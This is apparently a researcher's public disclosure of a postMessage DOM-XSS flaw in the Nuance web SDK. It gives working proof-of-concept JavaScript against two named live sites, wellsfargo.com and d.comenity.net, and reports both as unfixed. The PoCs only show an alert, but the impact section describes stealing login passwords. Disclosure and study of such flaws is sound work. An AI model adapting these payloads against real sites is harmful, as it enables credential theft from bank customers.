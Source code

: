```yaml
---
title: Nuance Library XSS
---
```


The [@nuance-sdk/websdk-bootstrap](https://docs.nuance.com/agent-coach/APIs/Web-SDK/architectural-overview.html) version 2.5.0 or below would allow XSS via postMessage if the UUID is known its normally a hardcoded public value.
Newer library versions added a origin check `if (this.frameEl && this.frameEl.src.indexOf(e.origin) == -1)`

# XSS on https://www.wellsfargo.com

It was triaged as Medium (4.7) but later closed because "DOM-XSS is explicitly out of scope in the program policy" An attempt was made to contact HackerOne support who think DOM-XSS has a limited risk due to its client-side nature and said public disclosure is a code of conduct violation.
During my account deletion request they changed program policy to allow DOM-XSS however still did not fix it. <https://hackerone.com/wellsfargo-bbp/policy_versions?change=3751314&type=team>

```js
onclick = () => {
  let win = open(
    'https://www.wellsfargo.com/goals-credit/smarter-credit/credit-101/fico/'
  );

  setTimeout(() => {
    // Ask the bank to create an iframe for favicon.ico as it does not have as strict a CSP.
    win.postMessage(
      JSON.stringify({
        UUID: 'WF_10006005',
        command: '1_PC_CREATE',
        info: {
          iframeId: 'favicon',
          src: ['https://www.wellsfargo.com/favicon.ico']
        }
      }),
      '*'
    );
  }, 2000);
  setTimeout(() => {
    // Ask the bank to eval some JS via favicon.
    win.postMessage(
      JSON.stringify({
        UUID: 'WF_10006005',
        command: 'CALL_OUT_FUNC',
        info: {
          name: 'favicon.contentWindow.eval',
          params: ['top.alert(window.origin)']
        }
      }),
      '*'
    );
  }, 3000);
};
```

# XSS on https://d.comenity.net

This site has no security contact and emailing their privacy contact did not result in the issue being fixed.

```js
onclick = () => {
  let win = open('https://d.comenity.net/ac/nflvisa/public/home');

  setInterval(() => {
    // Ask the bank to eval some JS via favicon.
    win.postMessage(
      JSON.stringify({
        UUID: '1112233',
        command: 'CALL_OUT_FUNC',
        info: {name: 'eval', params: ['alert(window.origin)']}
      }),
      '*'
    );
  }, 2000);
};
```

# Impact

Both sites have a login form so it could steal user passwords that may be automatic in the case of password manager usage or indirectly by using a scary message.

It does have `autocomplete="off"` but many modern browsers do not support autocomplete="off" for login fields. <https://developer.mozilla.org/en-US/docs/Web/Security/Practical_implementation_guides/Turning_off_form_autocompletion#managing_autofill_for_login_fields>

Other impacts may exist like if the origin contains or can embed account management, exposed cookies, site isolation bypass.

# Public disclosure

While I acknowledge there's very "limited" extra risks in regards to public disclosure here I dont feel there is any more I can do with unresponsive teams. If companies do feel that report submitting requires an NDA they are wrong and should never threaten over disclosure or pay for silence.
Also If I don't release this I will be thinking about it and that's a lot worse then any companies actions.
